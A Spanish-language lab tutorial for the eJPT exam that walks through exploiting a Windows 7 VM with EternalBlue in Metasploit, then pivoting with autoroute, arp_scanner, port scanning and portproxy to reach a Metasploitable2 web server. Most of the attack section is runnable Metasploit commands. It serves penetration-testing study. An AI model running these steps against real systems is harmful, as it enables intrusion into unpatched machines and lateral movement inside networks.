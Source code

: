 
----
- TAG: #Pivoting #Sistemas #Windows 
----
Lo siento por eso, voy a mantener los comentarios y detalles intactos en esta revisión. Aquí tienes tus notas mejoradas:

---

## Pivoting en eJPT: Configuración con Máquina Windows

En este apartado aprenderemos cómo realizar el pivoting para el examen eJPT, comenzando con una máquina Windows para luego encontrar y pivotear a una máquina **Linux**.

### Preparativos

1. **Máquina Vulnerable:** [Windows7](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing)
2. **Máquina Atacante:** **Kali Linux**
3. **Máquina Objetivo Secundaria:** [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2)

### Configuración del Entorno de Red en VirtualBox

1. Ir a **Archivo > Herramientas > Administrador de red**.
2. En el apartado de **Redes NAT**, hacer clic en **Crear**.
3. Asignar un nombre a la red, por ejemplo, **Red_Pivoting**.
4. En **Prefijo IPv4**, asignar la IP `10.10.10.0/24`.
5. Hacer clic en **Aplicar**.

### Configuración de la Máquina **Windows7**

1. En la configuración de la máquina, ir a **Red**.
2. Seleccionar **Adaptador2**.
3. Habilitar **Adaptador de red** y seleccionar **Red NAT**.

> **Nota:** Ahora la máquina Windows7 debería tener dos interfaces de red: una para el adaptador puente y otra para la red NAT.

### Configuración de la Máquina **Metasploitable2**

1. En la configuración de la máquina, ir a **Red**.
2. Asegurarse de que solo tiene una interfaz de red conectada a la **Red_NAT**.

### Configuración de la Máquina **Kali Linux**

1. Configurar **Kali Linux** con un adaptador puente.

---

### Arranque y Verificación de las Máquinas

1. Arrancar las máquinas en el siguiente orden:
   1. **Kali Linux**
   2. **Windows7**
   3. **Metasploitable2**

2. Realizar comprobaciones de red:
   - En **Windows7**, ejecutar `ipconfig` para verificar las dos interfaces de red.
   - En **Kali Linux**, ejecutar `ifconfig` para confirmar que solo hay una interfaz de red.
   - Iniciar sesión en **Metasploitable2** con:
     - **Usuario:** `msfadmin`
     - **Contraseña:** `msfadmin`
     - Ejecutar `ifconfig` para verificar que tiene una sola interfaz de red.

---

### Infiltración en la Máquina Windows7 y Pivoting

1. **Escaneo de Interfaces de Red con ARP-SCAN:**

```bash
arp-scan -I eth0 --localnet
```

   - Localizar la máquina **Windows** en la red.

2. **Explotación de la Vulnerabilidad EternalBlue:**

   - Ejecutar **msfconsole** y buscar el exploit:

```bash
search eternalblue
```

   - Usar el exploit número 0:

```bash
use 0
```

   - Configurar el exploit:

```bash
show options
```

   - Asignar la dirección IP de la máquina **Windows** vulnerable:

```bash
set RHOSTS 1.2.3.4
```

   - Ejecutar el exploit:

```bash
run
```

   - Una vez dentro de la máquina **Windows**, verificar si tiene más interfaces de red para pivotear:

```bash
ipconfig
```

> **Nota:** Si aparece una dirección IP en la **interface 13** correspondiente a la red NAT, esta es la máquina para hacer pivoting. Si solo aparece una dirección, es posible que no sea la máquina adecuada para pivoting.

3. **Poniendo en Segundo Plano la Sesión de Meterpreter:**

   - Para hacer pivoting, es necesario poner la sesión de **Meterpreter** en segundo plano:

```bash
Ctrl + Z
```

   - Verificar las sesiones en segundo plano:

```bash
sessions -l
```

4. **Escaneo de la Red Interna:**

   - Usar el módulo de **Metasploit** para escanear equipos en la red interna:

```bash
use windows/gather/arp_scanner
```

   - Ver las configuraciones del módulo:

```bash
show options
```

   - Configurar la sesión y el rango de IP a escanear:

```bash
set SESSION 1
set RHOSTS 10.10.10.0/24
```

   - Ejecutar el escaneo:

```bash
run
```

 > **Nota:** Identificar las IPs de la red, excluyendo las puertas de enlace (.1 y .2) que comparten la misma **MAC**. Buscar la IP de **Metasploit2** (ej. `10.10.10.5`).

5. **Enrutando el Tráfico con Autoroute:**

   - Usar el módulo **Autoroute** para enrutar el tráfico de la máquina **Metasploit2** hacia **Kali Linux**:

```bash
use multi/manage/autoroute
```

   - Configurar la sesión del **Meterpreter**:

```bash
set SESSION 1
```

   - Ejecutar el módulo:

```bash
run
```

6. **Escaneo de Puertos en la Máquina Victima:**

   - Usar el módulo de escaneo de puertos **TCP**:

```bash
use scanner/portscan/tcp
```

   - Configurar la dirección IP de la máquina **Metasploit2**:

```bash
set RHOSTS 10.10.10.5
```

   - Ejecutar el escaneo:

```bash
run
```

> **Nota:** En el examen, es recomendable esperar a que el escaneo termine completamente para identificar todos los puertos abiertos. Enfocarse en el puerto `80` para la enumeración, ya que suele ser un puerto clave para explotar.

7. **Pivoting con Portproxy en Windows:**

   - Usar el módulo **Portproxy** para pivoting:

```bash
use post/windows/manage/portproxy
```

   - Configurar los parámetros:

```bash
set CONNECT_ADDRESS 1.2.3.5 # ip de la máquina victima 
set CONNECT_PORT 80 # El puerto por donde queremos acceder
set LOCAL_ADDRESS 0.0.0.0 # Siempre va 0.0.0.0
set LOCAL_PORT 5000 # El puerto por donde nos queremos traer el puerto objetivo 
set SESSION 1 # Sesión id del meterpreter de la máquina Widnows
```

   - Ejecutar el módulo:

```bash
run
```

   - Verificar si el pivoting fue exitoso accediendo desde el navegador:

```https
10.10.10.4:5000
```

 > **Nota:** Si todo salió bien, deberías ver el inicio de la página web mostrando el servidor de **Metasploit2**.

---

Esto concluye la guía sobre pivoting en una máquina Windows. ¡Buena suerte en el examen eJPT!

---

